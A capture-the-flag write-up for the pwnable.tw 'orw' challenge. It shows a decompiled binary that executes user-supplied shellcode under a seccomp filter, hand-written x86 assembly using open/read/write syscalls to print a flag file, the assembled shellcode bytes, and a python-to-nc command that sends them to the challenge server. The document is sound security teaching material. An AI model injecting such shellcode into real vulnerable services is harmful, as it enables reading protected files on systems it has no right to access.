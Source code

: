 +++
title = "pwnable.tw - orw"
date = 2019-06-11T19:45:48.202Z
updated = 2020-12-27
aliases = ["/posts/5d0004ec2569df08a43d04cf-pwnabletw-orw"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'pwntools', 'assembly', 'shellcode']
categories = ["ctf-writeups"]
+++

# Challenge

> Read the flag from `/home/orw/flag`.
> 
> Only open read write syscall are allowed to use.
>
> `nc chall.pwnable.tw 10001`

# Solution
The binary simply reads in 200 bytes and then jumps to its address, after using `prctl` to prevent calling `execve`:

```cpp
int main(void) {
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0,shellcode,200);
  (*(code *)shellcode)();
  return 0;
}
```

By using `strace`, we see that `orw_seccomp` calls `prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, {len = 12, filter = 0x400000020})`.  
Based on this and the challenge description, it is clear that we cannot use a `execve` shell code like in the 
[previous challenge](https://srikavin.me/blog/posts/5cfff3292569df08a43d04cc-pwnabletw-start).

To assemble shellcode, I used an [online x86 assembler](https://defuse.ca/online-x86-assembler.htm) rather than setting 
up nasm. We know that the flag is located in `/home/orw/flag`. Our shellcode needs to accomplish the following:

<!-- more -->

```cpp
char[0x30] buffer;
fd = open("/home/orw/flag", RD_ONLY);
read(fd, buffer, 0x30);
write(stdout, buffer, 0x30);
```

We can refer to a [Linux x86 syscall table](http://shell-storm.org/shellcode/files/syscalls.html) to see the syscall 
numbers. The following is (sub-optimal) assembly code that I wrote that will open the file, read its contents, and write 
to `stdout`.

```asm
push 0x6761
push 0x6C662F77
push 0x726F2F65
push 0x6D6F682F

# open('/home/orw//flag', RD_ONLY)
xor eax, eax
add eax, 5
mov ebx, esp
xor ecx, ecx # 0 = RD_ONLY
xor edx, edx # 
int 0x80

# read(fd, esp, 0x30)
mov ebx, eax
mov eax, 3
mov ecx, esp
add edx, 0x30
int 0x80

# write(1, esp, 0x30)
mov eax, 4
xor ebx, ebx
add ebx, 1
mov ecx, esp
int 0x80
```

Assembling it gives us the following byte string:
```
\x68\x61\x67\x00\x00\x68\x77\x2F\x66\x6C\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x31\xC0\x83\xC0\x05\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x89\xC3\xB8\x03\x00\x00\x00\x89\xE1\x83\xC2\x30\xCD\x80\xB8\x04\x00\x00\x00\x31\xDB\x83\xC3\x01\x89\xE1\xCD\x80
```
Now we just have to pipe into the challenge, and we get the flag.
```
python -c 'print "\x68\x61\x67\x00\x00\x68\x77\x2F\x66\x6C\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x31\xC0\x83\xC0\x05\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x89\xC3\xB8\x03\x00\x00\x00\x89\xE1\x83\xC2\x30\xCD\x80\xB8\x04\x00\x00\x00\x31\xDB\x83\xC3\x01\x89\xE1\xCD\x80" | nc chall.pwnable.tw 10001
```
